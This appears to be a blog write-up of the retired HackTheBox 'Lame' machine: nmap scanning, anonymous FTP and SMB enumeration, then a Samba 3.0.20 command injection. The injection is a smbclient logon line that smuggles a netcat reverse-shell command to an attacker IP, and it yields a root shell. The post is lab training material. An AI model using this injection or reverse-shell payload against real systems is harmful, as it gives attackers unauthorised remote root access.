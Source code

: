 ```yaml
---
layout: post
title: Lame
subtitle: Lame HackTheBox
cover-img: assets/img/HTB_bg.jpg
thumbnail-img: assets/img/Lame.png
categories: HackTheBox
tags: [Offensive, Pentesting,HackTheBox, Linux]

---
```


Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement. 




## Reconnaissance
Let's start by doing nmap scan to find open ports. 

Nmap scan shows the following output with 5 open ports: 
`nmap -sC -sV -T5 10.10.10.3 -oA nmap_initial`


```
kali㉿kali)-[~/HTB/Lame]
└─$ nmap -sC -sV -T5 -Pn -p- 10.10.10.3 -oA initscan_lame 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-23 23:51 EDT
Nmap scan report for 10.10.10.3
Host is up (0.058s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-08-23T23:53:53-04:00
|_clock-skew: mean: 2h00m22s, deviation: 2h49m45s, median: 19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.68 seconds

```



## Enumeration

### FTP Anonymous Login

I tried to login as anonymous to the FTP service.  All the directory is empty. 
```
kali㉿kali)-[~/HTB/Lame]
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63947|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||37980|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> status
Connected and logged into 10.10.10.3.
No proxy connection.
Gate ftp: off, server (none), port ftpgate.
Passive mode: on; fallback to active mode: on.
Mode: stream; Type: binary; Form: non-print; Structure: file.
Verbose: on; Bell: off; Prompting: on; Globbing: on.
Store unique: off; Receive unique: off.
Preserve modification times: on.
Case: off; CR stripping: on.
Ntrans: off.
Nmap: off.
Hash mark printing: off; Mark count: 1024; Progress bar: on.
Get transfer rate throttle: off; maximum: 0; increment 1024.
Put transfer rate throttle: off; maximum: 0; increment 1024.
Socket buffer sizes: send 16384, receive 131072.
Use of PORT cmds: on.
Use of EPSV/EPRT cmds for IPv4: on.
Use of EPSV/EPRT cmds for IPv6: on.
Command line editing: on.
Version: tnftp 20230507
```


Running the metasploit exploit also fails . 

### SMB

Lets enumerate the smb services. (**Without metasploit**)
`smbmap -H 10.10.10.3` shows the following available shares where `tmp` got both read and write access. 
```
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```


Let's anonymous logon to it with the help of smbclient. 

`smbclient //10.10.10.3/tmp`

Since this version of samba is vulnerable to RCE, lets set up a listener to receive the shell . 

```
kali㉿kali)-[~/HTB/Lame]
└─$ nc -lvp 1337                                    
listening on [any] 1337 ...


```

Lets use the logon command on the smbclient which establishes a new vuid for this session by logging on again.

```
session setup failed: NT_STATUS_LOGON_FAILURE
smb: \> logon "/=`nc 10.10.16.7 1337 -e /bin/sh`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \> 
```
Going back to the netcat listener, we can see the following output. 

```
 nc -vlp 1337
listening on [any] 1337 ...
10.10.10.3: inverse host lookup failed: Unknown host
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.3] 50988
whoami
root


```

Let's upgrade our shell and find user.txt and root.txt

```
python -c 'import pty; pty.spawn("bash")'
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd home
cd home
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd makis
cd makis
root@lame:/home/makis# ls
ls
user.txt
root@lame:/home/makis# cat user.txt
cat user.txt
de.........................
root@lame:/home/makis# cd ..
cd ..
root@lame:/home# ls
ls
ftp  makis  service  user
root@lame:/home# cd ..
cd ..
root@lame:/# ls
ls
bin    etc         initrd.img.old  mnt        root  tmp      vmlinuz.old
boot   home        lib             nohup.out  sbin  usr
cdrom  initrd      lost+found      opt        srv   var
dev    initrd.img  media           proc       sys   vmlinuz
root@lame:/# cd root
cd root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
d438....................
root@lame:/root#  id
id
uid=0(root) gid=0(root)

```


